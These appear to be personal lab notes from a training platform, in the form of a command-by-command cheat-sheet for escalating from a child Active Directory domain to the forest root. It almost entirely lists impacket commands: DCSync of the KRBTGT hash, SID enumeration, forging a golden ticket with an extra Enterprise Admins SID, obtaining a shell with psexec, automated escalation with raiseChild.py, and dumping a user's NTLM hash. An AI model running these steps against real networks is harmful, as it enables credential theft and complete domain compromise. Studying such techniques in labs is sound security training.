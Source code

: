 
Information needed
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

 Performing DCSync with secretsdump.py
 ```shell-session
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

Performing SID Brute Forcing using lookupsid.py
```shell-session
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```

Looking for domain SID
```shell-session
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

Grabbing the Domain SID & Attaching to Enterprise Admin's RID
```shell-session
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

Construct golden ticket [Tool Source](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py)
```shell-session
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

Set ccache file
```shell-session
export KRB5CCNAME=hacker.ccache
```

Gain shell via psexec
```shell-session
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

Automated Attack via impacket
```shell-session
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```


Grab NTLM Hash for specified user with local ccache
```
secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-ntlm -just-dc-user bross
```

